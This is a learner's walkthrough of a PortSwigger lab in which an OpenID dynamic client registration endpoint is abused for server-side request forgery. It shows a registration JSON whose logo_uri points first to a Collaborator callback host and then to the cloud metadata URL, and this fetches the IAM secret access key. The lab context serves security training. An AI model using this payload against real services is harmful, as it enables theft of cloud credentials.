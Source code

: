 # Practitioner Lab 143: SSRF via OpenID dynamic client registration

---

This lab allows client applications to dynamically register themselves with the [OAuth](https://portswigger.net/web-security/oauth) service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: `wiener:peter`

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled.png)

Its using openId

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%201.png)

i tried /register /connect/register /registration and when I decided to look at this it worked. 

```
"issuer":"https://oauth-0af9009a03e9f6dc87c2de0c02dd0074.oauth-server.net","jwks_uri":"https://oauth-0af9009a03e9f6dc87c2de0c02dd0074.oauth-server.net/jwks",

"registration_endpoint":"https://oauth-0af9009a03e9f6dc87c2de0c02dd0074.oauth-server.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],
```

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%202.png)

it says that only application/json bodies .

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%203.png)

I managed to register.

```

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://lncs81r7qgmmqi9ob8nh79tz5qbhz9ny.oastify.com",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks"
}
```

I used this request to see if maybe I could get a collaborator dns request.

I then found this /client request which makes a request for the logo. 

Using this I tried to change the id to get the logo and see what happens.

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%204.png)

After making a request here. I managed to get something on the collaborator. 

This means that this would perform some ssrf if I put the path.

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%205.png)

Here I changed the path of the logo_uri for the one I want to get data from. 

![Untitled](Practitioner%20Lab%20143%20SSRF%20via%20OpenID%20dynamic%20clien%20191755657472432ca9fb3ec4f0b6f74c/Untitled%206.png)

This gave me the secretAccesskey.